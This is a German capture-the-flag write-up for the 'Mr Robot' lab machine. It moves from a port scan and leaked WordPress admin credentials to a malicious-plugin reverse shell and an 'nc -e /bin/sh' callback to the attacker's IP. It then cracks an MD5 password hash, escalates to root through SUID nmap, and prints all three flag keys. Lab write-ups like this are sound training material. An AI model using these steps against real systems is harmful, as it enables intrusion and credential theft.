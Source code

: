 # Mr Robot CTF
## nmap
```
[root@thm ~]$ nmap 10.10.146.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-01 00:50 CET
Nmap scan report for 10.10.146.189
Host is up (0.033s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Nmap done: 1 IP address (1 host up) scanned in 5.02 seconds
[root@thm ~]$ 
```

## http
http und https scheint den gleichen Content zu liefern. Durch die Oberflaeche kann etwas navigiert werden, allerdings wird hier nicht wirklich was brauchbares gefunden.

### robots.txt
robots.txt geprueft -> Datei _key-1-of-3.txt_ vermerkt, in dieser befindet sich der erste Key: 073403c8a58a1f80d943455fb30724b9 

### gobuster
- _http://10.10.146.189/0_ -> Wordpress Instanz
- _http://10.10.146.189/license_ -> Base64 encoded Credentials gefunden: elliot:ER28-0652 (mit diesen Daten kann sich bei Wordpress angemeldet werden)

## Wordpress
Version 4.3.1

Bei dem gefundenen Nutzer handelt es sich um den Admin. Hierdurch kann nun beispielsweise ein schadhaftes Plugin installiert werden um eine Reverse Shell zu erzeugen (siehe auch https://www.hackingarticles.in/wordpress-reverse-shell/).

`nc -lnvp 8080` vor dem aktivieren des Plugins starten.

## Reverse Shell
Der Nutzer hat scheinbar genug Rechte um aus dem Verzeichnis auszubrechen. Auf dem System findet man den Nutzer 'robot':
```
daemon@linux:/home/robot$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
daemon@linux:/home/robot$ ls -al /home
ls -al /home
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
daemon@linux:/home/robot$ ls -al 
ls -al 
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ ls -al /etc/shadow
```

In dessen Homeverzeichnis liegt scheinbar der zweite Key. Ebenso wie ein MD5 Hash. Vermutlich handelt es sich hierbei um das Kennwort des Nutzers 'robot'.

Verwendet man ein Tool wie https://crackstation.net/ kann man den Hash schnell cracken: abcdefghijklmnopqrstuvwxyz

Um sich anmelden zu koennen muss allerdings erst eine TTY erzeugt werden, da ueber die Reverse Shell 'su' nicht aufgerufen werden kann (siehe https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). Mit dem Python oneliner war dies erfolgreich:
```
daemon@linux:/home/robot$ su - robot
su - robot
su: must be run from a terminal
daemon@linux:/home/robot$ nc -e /bin/sh 10.9.45.203 4444
nc -e /bin/sh 10.9.45.203 4444
nc: invalid option -- 'e'
This is nc from the netcat-openbsd package. An alternative nc is available
in the netcat-traditional package.
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]
          [-P proxy_username] [-p source_port] [-q seconds] [-s source]
          [-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]
          [-x proxy_address[:port]] [destination] [port]
daemon@linux:/home/robot$ python --version
python --version
Python 2.7.6
daemon@linux:/home/robot$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ 
```

Der zweite Key kann nun ausgelesen werden:
```
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

## Priveledge escalation
Um eine Priveledge escalation durchzufuehren koennen standardmaessige Schritte durchgefuehrt werden. Bspw. LinPEAS oder folgendes Snippet:
```
find / -perm +6000 2>/dev/null | grep '/bin/'
```
Sucht nach Binaries, bei welchen das SUID Bit gesetzt ist. Hierbei kann 'nmap' gefunden werden, was ungewoehnlich ist:

```
robot@linux:~$ find / -perm +6000 2>/dev/null | grep '/bin/'
find / -perm +6000 2>/dev/null | grep '/bin/'
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
robot@linux:~$ ls -al /usr/local/bin/nmap
ls -al /usr/local/bin/nmap
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
robot@linux:~$ 
```

Unter https://gtfobins.github.io/ kann eine moegliche verwenden nachgelesen werden um die Rechte zu eskalieren:
```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> id
id
Unknown command (id) -- press h <enter> for help
nmap> !bash
!bash
bash-4.3$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
bash-4.3$ exit
exit
exit
waiting to reap child : No child processes
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# 
```

Mit den Root Rechten kann nun die dritte und damit letzte Flag gefunden und ausgelesen werden
```
# ls -al /root
ls -al /root
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 
```
